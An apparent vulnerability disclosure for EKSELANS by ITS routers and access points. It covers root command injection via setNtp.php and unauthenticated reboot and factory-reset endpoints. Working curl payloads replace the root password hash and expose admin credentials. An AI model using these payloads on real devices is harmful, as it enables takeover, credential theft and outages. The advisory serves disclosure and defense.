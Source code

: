 
# 🔥 Unauthenticated RCE and Full Device Compromise on EKSELANS by ITS Devices

## Summary

Multiple network devices manufactured by **EKSELANS BY ITS** (https://www.ek.plus/) are affected by a set of critical vulnerabilities that allow **unauthenticated attackers** to:

- Gain **root remote code execution (RCE)**,
- **Extract sensitive information** including admin credentials,
- **Change system configuration**, including the root password,
- **Trigger device reboot** and **factory reset** via unauthenticated endpoints,
- Ultimately perform **full device takeover** and **persistent denial-of-service (DoS)**.

These issues stem from improper input validation and unsafe use of shell commands in PHP CGI scripts exposed via the web interface.

---

## Affected Devices

The following EKSELANS BY ITS devices were tested and found vulnerable:

- TR750  
- TR1200  
- TR1200OLP  
- TR1300  
- TR2200  
- TR3000W6  
- TR3000W6OLP  
- AP1200 W2  
- AP 300  
- AP300 LP  
- AP750 NG  

**⚠️ Note:** Other devices in the EKSELANS product line may also be vulnerable, but have not yet been tested.

---

## Vulnerability 1 – Remote Code Execution (RCE) as Root via `setNtp.php`

### Description

The script at:

```
http://<device-ip>/cgi-bin/setNtp.php
```

is intended to update the system's timezone setting via the `Zone` POST parameter. However, it directly injects this input into a shell command using `shell_exec()` **without sanitization**, allowing arbitrary command execution as **root**.

### Risk Level: **Critical**

This leads to:
- Full root-level remote code execution (RCE)
- Unauthorized modification of system files (e.g. `/etc/shadow`)
- Persistence (e.g. SSH backdoor)
- Exfiltration of configuration and credentials
- Bricking of the device
- Further internal network exploitation

---

### Exploit Proofs-of-Concept (PoC)

#### 🔓 PoC 1 – Change root password to `toor` for future SSH access:

```bash
curl -X POST http://<target-ip>/cgi-bin/setNtp.php \
  -d "Zone=CET\"';sed -i 's#^root:[^:]*:#root:\$1\$Awiloz1g\$Je46CvkpbqUExnTav0W580:#' /etc/shadow;echo Z #"
```

This injects a new password hash into `/etc/shadow` for the `root` user.

> 🛠️ *The hash corresponds to the password: `toor`*

---

#### 📁 PoC 2 – Exfiltrate web admin credentials:

```bash
curl --location 'http://<device-ip>/cgi-bin/setNtp.php' \
--form 'Zone="UTC'''; cp /etc/config/systemconf/config/account.conf /www/cgi-bin/pwned3.php; echo '''"'
```

You can now download the credentials at:

```
http://<device-ip>/cgi-bin/pwned3.php
```

---

### Vulnerable Code (Excerpt)

```php
$cmd = "sed -i '3ioption timezone " . $zone . "'" . " /etc/config/system";
shell_exec($cmd);
```

The `Zone` parameter is directly concatenated into a shell command, enabling arbitrary code execution.

---

## Vulnerability 2 – Unauthenticated Reboot via `devmanage_reboot.php`

### Description

A simple unauthenticated request to:

```
http://<device-ip>/cgi-bin/devmanage_reboot.php
```

**immediately reboots the device**, without requiring login or confirmation.

This could allow attackers to:
- Cause **persistent DoS**
- Disrupt connectivity or network availability
- Exploit race conditions with other vulnerabilities

---

## Vulnerability 3 – Unauthenticated Factory Reset

### Description

A simple unauthenticated request to:

```
http://<device-ip>/cgi-bin/devmanage_resetDefault.php
```

in some firmware versions or configurations **triggers a full factory reset**, erasing custom settings, access credentials, and other user data.

This may result in:
- **Erasure of forensic evidence**
- **Loss of device access for legitimate users**
- Further **chaining of exploits** to set malicious defaults or gain persistence

---

## Step-by-Step Reproduction Guide

1. Identify a vulnerable EKSELANS device on the network.
2. Use `curl` or any HTTP client to POST to `/cgi-bin/setNtp.php` with a malicious `Zone` value.
3. Optionally extract files or drop a webshell using the same method.
4. For reboot/factory reset, issue a GET request to `/cgi-bin/devmanage_resetDefault.php`.

---

## Recommendations

- Immediately **remove public access** to affected devices.
- Apply **input sanitization** to all CGI scripts.
- Avoid using `shell_exec()` with user input.
- Restrict access to configuration endpoints via authentication.
- Apply firmware updates (if available) or contact vendor for mitigation guidance.

---

## Disclosure Timeline

- 15/04/2025  – Vendor notification in progress.

- 28/04/2025 – Public disclosure.

---

## Credits

Discovered and responsibly disclosed by **miitro**

---

## Disclaimer

This information is provided for educational and defensive security purposes. The author is not responsible for any misuse of this information.
